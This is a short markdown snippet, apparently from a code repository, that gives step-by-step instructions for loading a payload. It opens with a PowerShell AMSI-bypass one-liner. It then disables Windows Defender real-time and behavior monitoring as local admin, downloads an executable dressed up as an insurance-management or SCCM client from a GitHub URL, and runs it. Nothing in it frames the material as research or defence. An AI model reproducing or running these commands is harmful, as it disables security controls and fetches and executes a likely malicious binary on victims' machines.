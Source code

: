 Instructions on how to load the payload into memory

Run the below AMSI bypass command first, in a single line of code.
```powershell
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Failed") {$f=$e}};$f.SetValue($null,$true)
```

After running the AMSI bypass, run the following as local admin:
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableBehaviorMonitoring $true
Invoke-WebRequest -Uri https://github.com/confie-public/confie-public/raw/main/insurance_mgmt_client.exe -OutFile confie_sccm.exe
.\confie_sccm.exe
```
